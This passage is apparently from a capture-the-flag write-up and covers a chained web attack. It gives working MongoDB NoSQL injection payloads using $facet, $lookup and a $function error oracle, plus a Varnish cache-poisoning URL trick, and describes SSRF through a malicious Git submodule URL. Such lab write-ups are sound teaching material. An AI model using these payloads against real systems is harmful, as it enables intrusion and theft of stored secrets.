- Scripted Character-by-Character Leak via JavaScript Function
I crafted a payload using the MongoDB $function operator to try sending the flag value to an external webhook:
{
"$facet": {
"config": [
{"$match": {"username": "flag"}},
{"$lookup": {
"from": "config",
"localField": "username",
"foreignField": "type",
"as": "conf_docs"
}},
{"$unwind": "$conf_docs"},
{"$match": {
"conf_docs.value": {"$regex": f"^L3AK{escaped_prefix}"}
}},
{"$addFields": {
"trigger_error": {
"$function": {
"body": "function(value) { if(value) { throw new Error(); } return null; }",
"args": ["$conf_docs.value"],
"lang": "js"
}
}
}},
{"$project": {"_id": 0, "flag_value": "$conf_docs.value"}},
{"$limit": 1}
]
}
}
Since MongoDB has disabled JavaScript execution for security, the server returns a 500 error if the function is parsed correctly. By running this in a script that checks for the 500 status in the /api/upload response, I can infer flag characters one by one based on regex tests.
- Using Varnish Caching to Leak the Flag in One Go
Alternatively, by tricking Varnish’s caching behavior by appending .js and # at the end of the request URL:
http://localhost/api/search?debug=true&filter={"$facet": {"config": [{"$match": { "username": "flag" }},{"$lookup": {"from": "config","localField": "username","foreignField": "type","as": "conf_docs"}},{"$unwind": "$conf_docs"},{"$project": {"_id": 0,"flag_value": "$conf_docs.value"}}]}}&.js#
Adding &.js# tricks Varnish into caching the request and ignores everything after the #. This allows the server to process and cache the full NoSQL payload, enabling us to retrieve the flag from the same request without the complexity of character-by-character extraction.
✅ Final Exploitation Step Summary:
-
Appended &.js# to the NoSQLi payload URL to bypass filters and trick Varnish into caching the response.
-
Injected this crafted URL as the Git submodule URL inside .gitmodules and .git/config.
-
Zipped the folder (including .git/) and uploaded it via the app’s ZIP upload feature.
-
The backend executed git submodule update, triggering an SSRF to the malicious URL, and Varnish cached the response because it end with
.js. -
When we requets the same url Varnish will return the cached response containing the flag

Summary
-
Found SSRF via Git submodule URLs to bypass localhost restriction.
-
ploited NoSQL injection using MongoDB’s $facet and $lookup to access the flag stored in the database.
-
Leaked the flag by chaining SSRF with NoSQLi and using Varnish caching tricks for efficient extraction.